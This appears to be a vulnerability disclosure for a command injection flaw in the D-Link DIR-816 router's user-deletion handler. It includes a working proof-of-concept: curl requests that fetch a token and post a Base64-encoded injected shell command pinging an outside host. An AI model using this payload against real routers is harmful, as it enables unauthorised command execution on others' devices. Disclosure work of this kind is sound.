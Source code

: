 Vender ：D-Link

Firmware version:1.10 B05

Exploit Author: doudoudedi233@gmail.com

Vendor Homepage: http://www.dlink.com.cn/

Hardware Link:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

# report

##### Describe

​	I found some vulnerabilities in the dir-816 750m11ac wireless router , Firmware version is DIR-816A2_FWv1.10CNB05_R1B011D88210

​	The HTTP request parameter is used in the handler function of  /goform/form2userconfig.cgi route, which can construct the user name string to delete the user function. This can lead to command injection through shell metacharacters.

​	If the user can configure the router, it may cause unconditional command execution If the user can configure the router, it may cause unconditional command execution.


##### POC&&EXP
First, get the tokenid 
```
curl -s http://192.168.33.9/dir_login.asp  | grep tokenid
```
```
curl -i -X POST http://192.168.33.9/goform/form2userconfig.cgi  -d "username=JztwaW5nIDExMi4xMjYuOTkuOTE7Jw==&oldpass=123&newpass=MTIz&confpass=MTIz&deluser=Delete&select=s0&hiddenpass=&submit.htm%3Fuserconfig.htm=Send&tokenid=xxxxx"#input id
```
It will decode our command Base64 and execute it 

